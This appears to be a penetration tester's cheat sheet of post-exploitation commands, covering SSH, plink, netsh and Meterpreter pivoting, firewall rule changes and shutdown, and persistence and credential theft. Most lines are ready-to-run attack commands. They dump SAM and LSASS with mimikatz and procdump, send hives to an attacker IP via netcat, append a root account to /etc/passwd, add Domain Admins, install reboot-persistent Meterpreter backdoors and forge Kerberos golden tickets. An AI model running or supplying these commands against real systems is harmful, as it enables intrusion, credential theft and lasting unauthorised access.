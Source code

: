 ## File Transfer:

## Pivoting & Redirection:  

    Port Forwarding:
    	For internal network pivoting, firewall avoidance, local connect to mysql, etc.
        SSH Tunneling:
            Local Port Forwarding:
                ex. for hopping over first victim to another server
                ssh -L [bind_address:]port:host:hostport [username@address]
                on attack box:    sudo ssh -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128   (uses ssh to tunnel through firewall and host)
                    then can connect locally on our attack box:  smbclient -L 127.0.0.1 -U Administrator
            Remote Port Forwarding:
                ex. if no ssh allowed into victim, but allowed out
                ssh -R [bind_address:]port:host:hostport [username@address]
                then on the victim:   ssh -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
                    with listener running on kali (port 2221)
                    then on kali we can do:  sudo nmap -sS -sV 127.0.0.1 -p 2221  and it scans the victim port 3306
            Dynamic Port Forwarding:
                like local port forwarding, but can access/hop over to multiple ports/machines on victim network
                ssh -D <address to bind to>:<port to bind to> <username>@<SSH server address>
                on Kali:   sudo ssh -D 127.0.0.1:9050 student@10.11.0.128
                editing  /etc/proxychains.conf gives us tool access
                ex.  sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
	    Reverse Dynamic Port Forwarding:
		...
        RINETD
	     Requires install - sudo apt update && sudo apt install rinetd
	     rules in /etc/rinetd.conf:   # bindadress bindport connectaddress connectport
		ex. 0.0.0.0 80 216.58.207.142 80
	     sudo service rinetd restart
	Chisel:
		...
        Plink.exe (Windows):
		ex. if we have system access to a windows machine but there's inbound port filtering, and we want to access mysql on port 3306
		transfer program to victim
		on windows victim:   cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
		    then we can do:  sudo nmap -sS -sV 127.0.0.1 -p 1234
        Netsh (Windows):
		ex. if we have system access to a windows machine and want to pivot further into network
		IP Helper and IPv6 support must be running
		ex. forwarding to a server further in network:  netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
		    edit firewall to allow:  netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
	Fpipe (Windows):
		...
	HTTPTunneling through Deep Packet Inspection:
		ex. if we got root on linux victim, but firewall only allows http packets, not ssh
		sudo apt install httptunnel
		on linux victim:  ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
		    forwards to windows server deeper in network
		    then hts --forward-port localhost:8888 1234   (forwards local 1234 to 8888)
		on kali:   htc --forward-port 8080 10.11.0.128:1234
		then we can access windows server on kali by rdesktop 127.0.0.1:8080
	Pivoting with Meterpreter:
		*Use MSF portfwd when possible
		Within Meterpreter:  portfwd add -l <local port on the attacking machine (yours)> -p <victim port we want to access> -r <victim IP address>  ;  portfwd list  -  like SSH local forwarding  (help: portfwd -h)
			Forward:
				ex. portfwd add -L 127.0.0.1 -l 55555 -r 192.168.0.11 -p 55555
				ex. portfwd add -L 127.0.0.1 -l 2222 -r 192.168.200.69 -p 22 ; ssh user@localhost -p 2222
			Reverse (for intermediate reverse shell callback):  portfwd add -R -L 192.168.106.52 -l 9998 -p 9999  (reverse forward T2 9999 to T1 9998) (ran on T2)
				**portfwd add -R -L 127.0.0.1 -l RHP1 -r 192.168.106.52 -p RHP2  (run on meterp session of .106.52 box)
					**-r can be the listening box interface, or the box that will connect to it
				ex. portfwd add -R -L 127.0.0.1 -l 8888 [-r 192.168...] -p 9999    (forwards [192.168... interface on victim] 9999 to my 8888)
		run autoroute -s 10.1.13.0/24   -  then attack directly in MSF  (help: run autoroute -h)
		*Add Route (within MSF):  background; route add 192.168.0.0 255.255.255.0 <session_id>
		PSExec/PTH (port 445):  use exploit/windows/smb/psexec  \\  use admin/smb/psexec_command (stealthier)
			*Note: psexec uses powershell, so logging may be active; ****MAKE SURE TO USE PAYLOAD WITH PSEXEC--otherwise will try to connect directly to attack box
			Enable Firewall to Connect Back through:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389'          
	Allow into Firewall:
	    Unix:
		sudo iptables -A INPUT -p tcp --dport 22 -s 192.168.11.13 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
	    Windows:
		New Rule:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389'
			Delete:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall delete rule name=RDP'
		Modify Existing Rule:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall set rule name=callforhelp new remoteip=any'
	Routing w/ Fpipe:
		upload /tmp/fpipe.exe c:/windows/temp/fp.exe
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall show rule profile=any name=all'
		execute -f c:/windows/temp/fp.exe -a '-l 3389 -r 22 192.168.200.69'
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name=3389 dir=in action=allow protocol=TCP localport=3389'
		-L 33389:172.17.20.10:3389
		ssh user@localhost -p 33389
	Routing w/ Portproxy:
		run multicommand -cl 'cmd.exe /c netsh interface portproxy set v4tov4 listenport=3389 connectaddress=192.168.200.69 connectport=22'
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name=3389 dir=in action=allow protocol=TCP localport=3389'
		ssh user@localhost -p 33389
		Or:  run post/windows/manage/portproxy ...
	*Remember to delete rule afterwards
	Routing w/ Iptables:
		-L8080:192.0.2.79:8080
		iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8080 -j DNAT --to-destination 192.168.255.12:80
		If conntrack module is loaded, no need for a reversing rule
		echo 1 > /proc/sys/net/ipv4/ip_forward
		iptables -I RH-Firewall-1-INPUT 10 -p tcp --dport 80 -j ACCEPT
		iptables -t nat -A POSTROUTING -p tcp --dport 80 -d 192.168.255.12 -j SNAT --to-source 172.17.10.79
		nc -n 127.0.0.1 8080

## Persistence/Credentials:

    Unix:
        Add User:  echo root2:w08rKyoC9ECsg:0:0:/root:/bin/bash >> /etc/passwd     #password
        cat /etc/passwd /etc/shadow

    Windows:
    	Post-Exploitation Metasploit Modules:  https://www.infosecmatter.com/post-exploitation-metasploit-modules-reference/
        Credentials:
            SAM Files:
                Dump (if admin):  reg save hklm\sam c:\sam, reg save hklm\system c:\system,  and transfer back:  nc64.exe 10.10.14.18 4445 < SAMS   ,  nc -nvlp 4445 > SAMS
                Decrypt (Unix):  python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM [ip]
                Decrypt (Windows):  mimikatz.exe; privilege::debug; token::elevate; lsadump::sam filename1.hiv filename2.hiv
                Crack:  hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
            Meterpreter:  
	    	hashdump  \\  Better:  run hashdump \ run post/windows/gather/smart_hashdump
	    		john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
			use auxiliary/analyze/jtr_crack_fast
		GPO creds:  use post/windows/gather/credentials/gpp, set ... DOMAINS=BOOT SESSION=#
	   	run credcollect
	    	steal_token <PID> / drop_token
            Mimikatz: pull credentials from memory
                Local:  mimikatz.exe; privilege::debug; sekurlsa::logonpasswords full  \\  mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
                    In Meterpreter:  load mimikatz; msv  \\  creds_all  \\  kerberos  \\  mimikatz_command -f samdump::hashes  \\  mimikatz_command -f sekurlsa::searchPasswords  \\  execute -H -i -c -f /root/Desktop/Mimikatz/x64/mimikatz.exe -m
                	Option 1: load kiwi; creds_all  \\  creds_msv  \\  creds_kerberos   (require System)
			Option 2: load kiwi; kiwi_cmd "privilege::debug"; kiwi_cmd "sekurlsa::logonPasswords full"; kiwi_cmd "sekurlsa::credman"; kiwi_cmd "SEKURLSA::Kerberos"; kiwi_cmd "SEKURLSA::Krbtgt"; kiwi_cmd "SEKURLSA::SSP"; kiwi_cmd "SEKURLSA::Wdigest"
		From LSASS dump:
                    from task manager  \\  procdump -ma lsass.exe lsass.dmp  \\  Import-Module .\OutMiniDump.ps1; Get-Process lsass | Out-Minidump (https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1)
                    mimikatz “sekurlsa::minidump C:\Users\username\AppData\Local\Temp\lsass.DMP”; sekurlsa::logonPasswords
        Persistence:
	        Add User:  net user <user> <pass> /add; net localgroup "Administrators" <USER> /add
			Meterpreter:  run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD","cmd.exe /c net localgroup 'Administrators' metasploit /ADD" ; Domain: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD /DOMAIN","cmd.exe /c net group "Domain Admins" metasploit /ADD /DOMAIN"
				Make Domain Admin:  run multicommand -cl 'cmd.exe /c net group "Domain admins" mossa /add /domain'; run multicommand -cl 'cmd.exe /c net group "Domain admins" /domain'
		RDP:
		    Enable RDP Access:
			reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0
			netsh firewall set service remoteadmin enable
			netsh firewall set service remotedesktop enable
		    Add RDP User:  net localgroup "Remote Desktop Users" <USER> /add
		    Meterpreter:  run post/windows/manage/enable_rdp username=admin,password=password
		    	Or: run getgui -e  //  or  run getgui -u loneferret -p password  ;  then cleanup:  ex. run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__....rc
		Telnet:  run gettelnet [-e  //  -u user -p pass]
		Turn Off Firewall:
		    Newer:  netsh advfirewall set allprofiles state off
		    Older:  netsh firewall set opmode disable
		Meterpreter Bind Backdoor:  run metsvc; use exploit/multi/handler; set PAYLOAD windows/metsvc_bind_tcp; set LPORT 31337; set RHOST 192.168.1.104; run
			Reverse Backdoor (reboot persistent):  run persistence -U -i 5 -p 443 -r 192.168.1.71; use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.71; set LPORT 443; exploit
		Meterpreter Golden Ticket:  load kiwi;  golden_ticket_create -u mossa -d BOOT.LAB -k (krbtgt hash last half only) -s (Domain User SID w/o last 4 digits--from enum_users) -t /tmp/ticket
			kerberos_ticket_list; kerberos_ticket_use /tmp/ticket
